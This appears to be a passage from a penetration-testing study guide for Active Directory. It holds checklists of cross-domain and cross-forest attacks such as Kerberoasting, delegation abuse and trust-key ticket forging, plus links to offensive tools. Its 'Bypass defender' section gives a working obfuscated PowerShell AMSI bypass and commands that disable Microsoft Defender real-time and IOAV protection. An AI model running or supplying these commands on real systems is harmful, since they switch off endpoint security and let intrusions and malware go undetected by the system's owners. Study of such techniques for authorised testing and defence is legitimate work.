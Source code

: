 ## 9. Cross Domain Attacks

> * [ ] MX-Exchange
> * [ ] Azure AD Integration
> * [ ] AD CS
> * [ ] Forest SID Abuse
> * [ ] Forest krbtgt Attack

## 9. Cross Forest Attacks

> * [ ] Forge inter-forest ticket by trust keys
> * [ ] Kerberosting
> * [ ] Constrained Delegation
> * [ ] Unconstrained Delegation
> * [ ] Foreign Security Principle Attack
> * [ ] ACL Attack
> * [ ] PAM Trust Abuse
> * [ ] MSSQL Attack

***

## Extra Tools

1. https://github.com/61106960/adPEAS
2. https://github.com/phackt/Invoke-Recon
3. https://github.com/itm4n/PrivescCheck
4. https://github.com/hausec/Bloodhound-Custom-Queries
5. https://github.com/sense-of-security/ADRecon/tree/master
6. https://github.com/calebstewart/bypass-clm

***

## Command master

> Check the misc notes master

## 1. Bypass defender

```powershell
# AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Bypass real time monitoring ( admin privs )
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
